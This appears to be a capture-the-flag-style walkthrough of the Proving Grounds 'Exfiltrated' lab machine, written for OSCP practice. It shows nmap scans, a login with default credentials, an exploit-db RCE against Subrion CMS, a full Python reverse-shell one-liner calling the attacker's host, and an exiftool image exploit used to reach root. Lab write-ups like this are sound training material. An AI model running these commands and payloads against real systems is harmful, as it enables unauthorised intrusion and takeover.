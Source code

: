 ```yaml
---
title: Proving Grounds Exfiltrated Walkthrough
date: 2022-08-08 12:37:00 -500 
categories: [OSCP Prep,Proving Grounds]
tags: [oscp,linux]
---
```


# Exfiltrated Overview

## Machine Details

|IP|Hostname|Operating System|
|---|---|---|
|192.168.x.163|Exfiltrated|Linux|

## Path to Exploitation
This is a Linux machine running an HTTP server and has SSH available. We will identify the vulnerable web-application and using a publicly available exploit and default credentials we obtain a web-shell and get command execution. Once on the machine we identify a scheduled script that takes uploaded images and executes the exiftools command on them. We can leverage this by uploading a .jpg file with an embedded reverse shell payload.

# Enumeration

## Full Port Scan

```bash
$ nmap 192.168.109.163 -p- -oA Exfiltrated/nmap/full-port --open -Pn -vv
```

Which Resulted in:

|PORT|SERVICE|
|----|-------|
|22|ssh|
|80|http|

## Service Scan

```bash
$ nmap 192.168.109.163 -p 22,80 -sC -sV -oA Exfiltrated/nmap/service-scan -Pn
```

Which Resulted in:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|22|ssh|8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)|
|80|http|httpd 2.4.41 ((Ubuntu))|

# Website Enumeration

![Web Application](/assets/ProvingGrounds/Exfiltarted/site-landing-page.png "Site Page")

We see the server is running Subrion CMS 4.2.1 which has an [Authenticated RCE](https://www.exploit-db.com/exploits/49876). We can guess the default credentials admin:admin and see that we can now login to the application

![Valid Credentials](/assets/ProvingGrounds/Exfiltarted/valid-creds.png "Valid Credentials")

We can now use the exploit and supply it the credentials for the application

```bash
$ python3 exploit.py -u http://192.168.109.163/panel/ -l admin -p admin 
```

And we see that we have command execution on the box

![Command Execution](/assets/ProvingGrounds/Exfiltarted/command-exec.png "Confirmed Command Exec")

We can get a reverse shell by setting up a listener and running the following python command
```python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.109",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

# Privilege Escalation
We inspect the content of /opt/image-exif.sh and see the following code.

![Script Content](/assets/ProvingGrounds/Exfiltarted/script-content.png "Script Content")

We see that the code is taking images from the site's upload directory and running exiftools on it. We can inject a malicious command into a jpg file attempt to get a reverse shell when exfitools executes. We can use the exploit located [here](https://www.exploit-db.com/exploits/50911) to generate our malicious jpg.

```bash
$ python3 exif-exploit.py -s 192.168.49.109 443
```

![Exploit](/assets/ProvingGrounds/Exfiltarted/exploit.png "Exploit")

We now upload our image to the site's upload directory, setup a listener and wait to catch the shell

![Root Shell](/assets/ProvingGrounds/Exfiltarted/root-shell.png "Root Shell")

And we now have a root shell

